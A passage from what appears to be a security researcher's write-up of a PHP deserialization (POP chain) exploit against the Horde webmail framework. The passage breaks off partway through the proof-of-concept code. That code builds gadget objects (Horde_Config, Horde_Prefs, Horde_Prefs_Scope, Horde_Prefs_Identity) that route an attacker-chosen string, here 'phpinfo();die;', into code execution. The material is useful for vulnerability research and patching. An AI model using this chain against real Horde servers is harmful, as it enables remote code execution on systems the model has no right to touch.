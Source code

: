 ```php
    {
        if (!is_null($this->_oldConfig)) {
            return $this->_oldConfig;
        }
        ...
    }
    ...
}
```

It was not lost on me, that we are (ab)using the `Horde_Prefs` class for the deserialization chain either!

### Proof of Concept

Here is the completed POP chain I used:

```php
<?php

class Horde_Config
{
   protected $_oldConfig = "phpinfo();die;";
}

class Horde_Prefs_Scope implements Serializable
{
    protected $_prefs = array(1);
    protected $scope;

    public function serialize()
    {
        return json_encode(array(
            $this->scope,
            $this->_prefs
        ));
    }

    public function unserialize($data)
    {
        list($this->scope, $this->_prefs) = json_decode($data, true);
    }
}

class Horde_Prefs
{
   protected $_opts, $_scopes;

   function __construct()
   {
      $this->_opts['sizecallback'] = array(new Horde_Config, 'readXMLConfig');
      $this->_scopes['horde'] = new Horde_Prefs_Scope;
   }
}

class Horde_Prefs_Identity
{

   protected $_prefs, $_prefnames, $_identities;
   function __construct()
   {
      $this->_identities = array(0);
      $this->_prefs = new Horde_Prefs;
      $this->_prefnames['identities'] = 0;
```